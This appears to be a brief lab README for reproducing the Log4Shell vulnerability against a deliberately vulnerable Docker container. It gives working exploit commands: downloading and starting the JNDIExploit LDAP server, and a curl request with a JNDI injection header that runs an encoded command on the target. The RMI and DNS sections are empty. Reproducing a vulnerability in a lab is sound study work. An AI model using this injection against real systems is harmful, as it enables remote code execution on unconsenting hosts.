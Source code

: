# Reproduce

Source: https://github.com/christophetd/log4shell-vulnerable-app

## Vulnerable container
- `docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app`

## LDAP
- `wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip`
- `unzip JNDIExploit.v1.2.zip`
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888`
- `curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'`

## RMI

## DNS

## Verify
- `docker exec vulnerable-app ls /tmp`
